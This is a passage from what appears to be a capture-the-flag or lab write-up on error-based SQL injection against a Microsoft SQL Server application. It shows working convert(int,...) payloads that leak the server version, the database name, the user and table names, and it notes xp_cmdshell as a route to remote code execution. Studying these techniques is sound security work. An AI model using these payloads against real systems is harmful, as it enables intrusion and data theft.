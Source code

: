 ```
',convert(int,@@version))--
```

By virtue of the inject working when it is in the username field, it probably comes first in the inject.

We finally make some headway!

```
Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64)
Aug 22 2017 17:04:49
Copyright (C) 2017 Microsoft Corporation
Express Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

Now we know the SQL version.

Let's get some more pertinent information now, like the database name with the same error-generating convert query:

```
',convert(int,db_name()))--
```

Results:

```
Conversion failed when converting the nvarchar value 'newsletter' to data type int.
```

Now we know the table is named `newsletter`.

Let's go to enumerating the username of the user running the database. If have `sa` privileges, it means we can use an exploit with `XP_CMDSHELL` to have remote code execution.

We load the following command into our formatting and send it:

```
',convert(int,user_name()))--
```

Unfortunately, it isn't anything interesting:

```
Conversion failed when converting the nvarchar value 'webapp' to data type int.
```

Next, let's move on to the actual contents of the database.

First, let's try to get the table names.

This command targets `information_schema.tables`, which stores information about tables in the databases, and the `table_name` fields stores the table names. This command selects the name of the first table:

```
',convert(int,(select top 1 table_name from information_schema.tables)))--
```

The result is the users table, which is pretty expected, as that is generally where user information is stored:

